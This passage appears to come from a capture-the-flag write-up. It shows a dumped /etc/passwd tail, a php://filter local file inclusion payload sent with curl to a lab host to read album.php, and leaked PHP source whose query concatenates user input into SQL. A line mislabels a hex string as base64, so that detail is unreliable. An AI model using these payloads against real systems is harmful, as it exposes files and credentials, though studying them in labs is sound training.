 ```jsx
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
                                                                             
┌──(neo㉿neo)-
```

### Reading Application Files

```jsx
php://filter/convert.base64-encode/resource=
```

```jsx
first the file place >>>>> php://filter/convert.base64-encode/resource=album.php
```

```jsx
encrypted by base64 >>>>>    7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d616c62756d2e706870
```

![Screenshot From 2025-05-01 05-41-03.png](img8.png)

## `$ curl -s 'http://10.10.152.169/image.php?hash=ec6e518b7e39db98affbf2bf2c671d469639503d4fee97bf7cf0f0a1319075d9&path=php://filter/convert.base64-encode/resource=album.php' | base64 -d`

```jsx
$ curl -s 'http://10.10.152.169/image.php?hash=ec6e518b7e39db98affbf2bf2c671d469639503d4fee97bf7cf0f0a1319075d9&path=php://filter/convert.base64-encode/resource=album.php' | base64 -d
```

```jsx
...
<?php

include('dbconfig.php');

try {
    // Create a new PDO instance
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);

    // Set PDO error mode to exception
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    if (preg_match('/[\/;]/', $_GET['short_tag'])) {
        // If it does, terminate with an error message
        die("Hacking attempt");
    }

    $album_id = "SELECT id from albums where short_tag = '" . $_GET['short_tag'] . "'";
    $result_album = $conn->prepare($album_id);
    $result_album->execute();

    $r=$result_album->fetch();
    $id=$r['id'];

    // Fetch image IDs from the database
    $sql_ids = "SELECT * FROM images where album_id=" . $id;
    $stmt_path= $conn->prepare($sql_ids);
    $stmt_path->execute();

```